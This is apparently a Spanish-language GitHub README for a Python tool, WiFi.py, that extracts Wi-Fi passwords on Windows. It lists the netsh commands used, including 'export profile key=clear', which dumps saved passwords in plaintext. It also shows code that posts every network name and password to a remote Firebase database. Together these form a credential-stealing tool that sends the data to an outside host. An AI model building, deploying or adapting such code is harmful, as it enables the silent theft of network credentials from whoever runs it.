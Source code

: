 # Python-Wi-Fi
Obtener contraseñas Wi-Fi

Al archivo WiFi.py ejecuta los comandos en la consola de windows
```
netsh wlan show profile
netsh wlan show networks
netsh wlan export profile key=clear
```


### Lo que deja ver las **redes wifi guardadas en el dispositivo en el que se ejecuta el programa**.
Después crea un archivo .xml por cada wifi, el programa encuentra en ese archivo las redes que tienen la contraseña visible y pasa toda esa informacion a una base de datos de firebase.

```python
db = firebase.FirebaseApplication('REALTIME DATABASE URL')
data = {"Wi-Fi": wifi_names[index],"Password": passwords[index]}
datos = db.post("/wifi's", data)
```
### Ejemplo de URL:
```python
db = firebase.FirebaseApplication('https://miproyecto-default-rtdb.firebaseio.com/')
```
